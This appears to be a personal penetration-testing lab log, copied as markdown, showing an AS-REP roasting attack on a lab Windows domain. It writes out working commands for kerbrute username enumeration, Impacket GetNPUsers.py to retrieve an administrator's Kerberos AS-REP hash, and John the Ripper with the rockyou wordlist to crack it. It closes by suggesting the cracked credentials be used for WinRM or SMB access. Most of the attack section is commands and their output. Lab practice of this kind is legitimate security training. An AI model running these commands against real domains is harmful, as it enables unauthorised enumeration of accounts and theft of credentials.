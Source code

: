 
markdown
Copy
Edit
# 🔐 AS-REP Roasting & Kerberos Enumeration (2025-04-24)

**Target:** 192.168.1.2 (Windows Server 2025 - `narnia.com`)  
**Attacker Machine:** Kali Linux (`192.168.1.10`)  
**Tools Used:** `kerbrute`, `impacket` (GetNPUsers.py)

---

## 🎯 Goal

- Identify valid domain usernames
- Test for Kerberos accounts with "Do not require pre-authentication"
- Retrieve AS-REP hashes for offline cracking

---

## 🧰 Step 1: Kerbrute Enumeration

**Command:**
```bash
kerbrute userenum --dc 192.168.1.2 -d narnia.com usernames.txt
Result:

pgsql
Copy
Edit
[*] Valid user found: administrator@narnia.com
[*] Valid user found: jdoe@narnia.com
✅ 2 valid usernames identified

🧰 Step 2: AS-REP Roasting with Impacket
Command:

bash
Copy
Edit
cd ~/impacket/examples
python3 GetNPUsers.py -dc-ip 192.168.1.2 narnia.com/ -usersfile usernames.txt -no-pass
Result:

plaintext
Copy
Edit
[*] Found user administrator with no pre-auth required
$krb5asrep$23$administrator@NARNIA.COM:...
...
✅ AS-REP hash retrieved
🛠️ Next step: crack it with John the Ripper

🔓 Step 3: Cracking Hash
Command:

bash
Copy
Edit
john --wordlist=/usr/share/wordlists/rockyou.txt hashfile
(Pending...)

🗂️ Notes
Only users with no-preauth will show AS-REP hashes

AS-REP hashes are Type 23 and can be cracked offline

If cracked, use credentials for WinRM or SMB access

✅ Summary

Stage	Status
Valid users found	✅ (2)
AS-REP hash found	✅ (administrator)
Hash cracked	🔄 Pending
